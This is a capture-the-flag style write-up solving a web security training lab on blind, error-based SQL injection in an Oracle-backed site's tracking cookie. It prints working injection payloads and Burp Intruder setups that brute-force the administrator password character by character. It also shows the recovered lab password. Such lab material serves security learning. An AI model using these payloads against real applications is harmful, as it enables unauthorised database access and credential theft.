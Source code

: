 # Lab: Blind SQL injection with conditional errors

## Description

 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs an SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

## HINT

This lab uses an Oracle database. For more information, see the SQL injection cheat sheet.

# Step 1: Verify blind, conditional-error-based SQLi

## Finding injection point

I will be using burpsuite for this lab. To start, I start with intercept off and visit the target page in the browser. I also pull up the browser dev tools, in order to view and modify my cookie values.

![image](https://user-images.githubusercontent.com/83407557/169845297-c31515b2-98b3-478d-bdd7-07ed9c1e259c.png)

I then will try and attempt to get the server to error with a single quotation mark added to my tracking cookie and refreshing the page:

![image](https://user-images.githubusercontent.com/83407557/169846190-10990e6d-5b0e-4fe4-87a6-ff97b40404d2.png)

If I then add a comment -- the error goes away:

![image](https://user-images.githubusercontent.com/83407557/169846508-c3987f72-d92d-467a-9082-729621022ca5.png)


# Step 2: Using true and false Select statement to cause an error

In oracle I need to select from something, which I will use the always valid table *dual*. 

A Valid statement would be:

```sql
SELECT * FROM dual
```

This is because dual exists and as long as the server can select from it, the statement will not error

and invalid statement would be:

```sql
SELECT * FROM doesnt_exist
```

So with that mind, I will need to concatonate this onto my payload like the following:

Should NOT error
```sql
'||(SELECT * FROM dual)--
```

SHOULD error
```sql
'||(SELECT * FROM doesn't_exist)--
```

![image](https://user-images.githubusercontent.com/83407557/169852091-d4c0f322-8cf5-408b-aca0-53e5724100ad.png)

![image](https://user-images.githubusercontent.com/83407557/169852204-6e97b877-fccd-4935-80d5-1b7878e34e55.png)

and it acts as expected.

# STEP 3 Crafting a True select statement that causes an error

since the goal is to guess each character of the administrators password, we need to make it so that if our select statement is true, the server will throw an error:

Because 1 does equal 1, this should error because 1/0 is an invalid operation

```sql
'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```

![image](https://user-images.githubusercontent.com/83407557/169855167-14bdbf28-ab76-4e57-83cb-d699e7aefd39.png)

However with the following because 1 does not equal 2, the sever will select anything ('') from dual and therefore not error

```sql
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)--
```


![image](https://user-images.githubusercontent.com/83407557/169855765-b282598e-32da-4d1e-9325-dac145575ca6.png)


# STEP 4 Creating string for burp-intruder payload to determine password length


Since we know the table name is users and the username column will be administrator, we need to dig out the password column for that entry:

I want to test if the password is greater than a given number, if it is: the server should error. If the password is smaller than the given number, the server should not error. I will know how long the password is based on the highest given number that still errors.

The initial string will just test if the password is more that 1 character long. I will then send it to burp intruder

```sql
'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')--
```
I can then set the payload position at the number I am comparing the password length to:

![image](https://user-images.githubusercontent.com/83407557/169927613-cead1037-ddf6-49a4-9c06-119f40cfd87d.png)

And will set a sniper payload that is a set of numbers ranging from 1-30.

![image](https://user-images.githubusercontent.com/83407557/169927748-e8979edf-4647-4628-944f-71c6454a2ada.png)

This attack should error out until the password length is given from the set of numbers

![image](https://user-images.githubusercontent.com/83407557/169927902-6466f9bd-ea4c-4158-b194-959cb4a5fe88.png)

because the is password > 20 did not return an error, this lets me know that the password is 20 characters long.

# STEP 5 Use substring method to guess 20 character long password

In a similar fasion I can create a query that can guess the password one character at a time, until all 20 are guessed. 

The initial query string:

This tests if the first character is an 'a'
```sql
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')--
```

This would check if the second character was 'b'
```sq;
'||(SELECT CASE WHEN SUBSTR(password,2,1)='b' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')
```

With that in mind, lets build a burp intruder attack:

It will be a cluster bomb, with two payload positions. The first at the substring number, the second at the letter we are guessing.

![image](https://user-images.githubusercontent.com/83407557/169928628-e02b9304-e80c-4b53-9e4f-01d218dcb705.png)

The first payload will be the number 1-20

![image](https://user-images.githubusercontent.com/83407557/169928707-11642282-9a35-4c3a-804c-d85307f4061e.png)

the second is a brute force with all lowercase letters and the numbers 0-9.

![image](https://user-images.githubusercontent.com/83407557/169928811-7c43b756-79ee-4c82-83bb-752a0df3e34f.png)

As you can see this will create a lot of requests, so go get a coffee at the farther place that is a little more fancy (if you are on burp community like me). However we just are interested in the 20 responses that are errors, so after a nap, we should have the password.


![image](https://user-images.githubusercontent.com/83407557/169945907-d5a14be1-0a77-4cd4-a2db-209fc6c8a9a7.png)

with this I can see the password is llp16sqnu3uzoftvkg5r

# STEP 6 Login as administrator user with password llp16sqnu3uzoftvkg5r

![image](https://user-images.githubusercontent.com/83407557/169946340-d104b093-c7d0-4725-82cd-4e3c87e0076b.png)


redirecting to:
![image](https://user-images.githubusercontent.com/83407557/169946300-ab2091d6-9185-4d09-bb22-6ea06cd8a496.png)

